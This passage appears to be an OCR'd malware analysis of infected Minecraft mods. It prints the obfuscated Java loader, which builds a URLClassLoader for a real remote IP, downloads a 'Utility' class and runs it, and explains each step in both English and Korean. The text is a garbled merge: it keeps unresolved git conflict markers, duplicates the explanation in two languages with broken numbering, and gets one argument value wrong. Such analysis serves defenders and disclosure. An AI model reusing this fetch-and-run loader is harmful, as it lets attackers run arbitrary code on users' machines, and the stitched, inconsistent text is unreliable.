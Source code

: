 ```java
static void _1685f49242dd46ef9c553d8af1a4e0bb() {
  Class.forName(new String(new byte[] {
      // "Utility"
    85, 116, 105, 108, 105, 116, 121
  }), true, (ClassLoader) Class.forName(new String(new byte[] {
      // "java.net.URLClassLoader"
    106, 97, 118, 97, 46, 110, 101, 116, 46, 85, 82, 76, 67, 108, 97, 115, 115, 76, 111, 97, 100, 101, 114
  })).getConstructor(URL[].class).newInstance(new URL[] {
    new URL(new String(new byte[] {
        // "http"
      104, 116, 116, 112
    }), new String(new byte[] {
        // "85.217.144.130"
      56, 53, 46, 50, 49, 55, 46, 49, 52, 52, 46, 49, 51, 48
    }), 8080, new String(new byte[] {
        // "/dl"
        47, 100, 108
        }))
  })).getMethod(new String(new byte[] {
      // "run"
    114, 117, 110
  }), String.class).invoke((Object) null, "-114.-18.38.108.-100");
}
```

<<<<<<< HEAD
해당 코드는 다음과 같은 작업을 수행합니다:
=======
This:

1. Creates a `URLClassLoader` with the URL `http://[85.217.144.130:8080]/dl` ([shodan](https://www.shodan.io/host/85.217.144.130))
2. Loads the class `Utility` from the classloader, fetching code from the internet
3. Calls the `run` method on `Utility`, passing a String argument different for each infected mod (!). E.g.
   _ Skyblock Core: "`-74.-10.78.-106.12`"
   _ Dungeonz: "`-114.-18.38.108.-100`"
   _ HavenElytra: "`-114.-18.38.108.-100`"
   _ Vault Integrations: "`-114.-18.38.108.-100`"

   > > > > > > > 1f61c29bdc3036bf1973fd8f109fb1652961eb2b

4. `http://[85.217.144.130:8080]/dl` ( [shodan](https://www.shodan.io/host/85.217.144.130) 참조) URL을 사용하여 `URLClassLoader`를 생성합니다.
5. 해당 클래스로부터 `Utility` 클래스를 클래스로더(classloader)로부터 로드하며, 인터넷에서 코드를 가져옵니다.
6. `Utility`의 `run` 메서드를 호출하며, 각각의 감염된 모드마다 다른 문자열 인수를 전달합니다. 예를 들면:
   - Skyblock Core: "`-74.-10.78.-106.12`"
   - Dungeonz: "`114.-18.38.108.-100`"
   - HavenElytra: "`-114.-18.38.108.-100`"
   - Vault Integrations: "`-114.-18.38.108.-100`"

전달된 숫자는 Stage 1에서 바이트로 구문 분석되어 ".ref"라는 파일에 기록되며, 작성자가 감염 소스를 추적하기 위한 방법으로 보입니다.
